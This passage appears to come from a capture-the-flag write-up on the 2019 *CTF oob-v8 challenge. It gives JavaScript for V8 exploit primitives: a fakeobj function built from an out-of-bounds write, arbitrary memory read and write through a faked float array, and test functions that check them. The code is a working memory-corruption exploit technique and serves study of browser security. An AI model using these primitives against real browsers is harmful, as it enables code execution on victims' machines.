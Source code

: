 To fake an object reference of arbitrary address, we can use the out of bound write to overwrite the ptr of `obj_arr[0]` to that address and return the reference back. 

```
function fakeobj(addr) {
  const tmp = ftoi(fl_arr[9]) & 0xffffffffn;
  fl_arr[9] = itof(tmp + (addr << 32n));
  return obj_arr[0];
}
```

### Arbitrary Read & Write Primitives

After we achieving the `addrof` and `fakeobj`, we can use the same techniques used before to achieve the arbitrary address read and write primitives. 

https://github.com/jackfromeast/browser-dojo/tree/main/v8/2019-star-ctf-oob-v8#arbitrary-read--write-primitives

```
function arbitray_addr_read(addr) {
  arr_float[0] = map_arr_float;
  arr_float[1] = itof(0x0000000200000000n + addr - 0x8n);
  const fake = fakeobj(addrof(arr_float) - 0x10n);
  return ftoi(fake[0]);
}

function arbitray_addr_write(addr, val) {
  arr_float[0] = map_arr_float;
  arr_float[1] = itof(0x0000000200000000n + addr - 0x8n);
  const fake = fakeobj(addrof(arr_float) - 0x10n);
  fake[0] = val;
}
```

We can use the following functions to check the functionality of our primitives.

```
function arbitrary_addr_read_check(){
  let arr_float_test = [1.1, 2.2];                    // 0x3ff199999999999a, 0x400199999999999a
  let test_addr = addrof(arr_float_test);

  let val_1 = arbitray_addr_read(test_addr-0x10n);    // should equal to 0x3ff199999999999a
  let val_2 = arbitray_addr_read(test_addr-0x8n);     // should equal to 0x400199999999999a
  console.log("[+] Read value1:" + hex(val_1));
  console.log("[+] Read value2:" + hex(val_2));

  if (val_1 === 0x3ff199999999999an && val_2 === 0x400199999999999an){
    console.log("[+] Arbitrary address read success!");
  }
}

function arbitrary_addr_write_check(){
  let arr_float_test = [1.1, 2.2];                    // change 1.1 to 3.3, 2.2 to 4.4
  let test_addr = addrof(arr_float_test);
  
  arbitray_addr_write(test_addr-0x10n, 3.3);
  arbitray_addr_write(test_addr-0x8n, 4.4);

  let val_1 = arbitray_addr_read(test_addr-0x10n);    // should equal to 0x400a666666666666
  let val_2 = arbitray_addr_read(test_addr-0x8n);     // should equal to 0x401199999999999a
  console.log("[+] Read value1:" + hex(val_1));
  console.log("[+] Read value2:" + hex(val_2));

  if (val_1 === 0x400a666666666666n && val_2 === 0x401199999999999an){
    console.log("[+] Arbitrary address write success!");
  }
```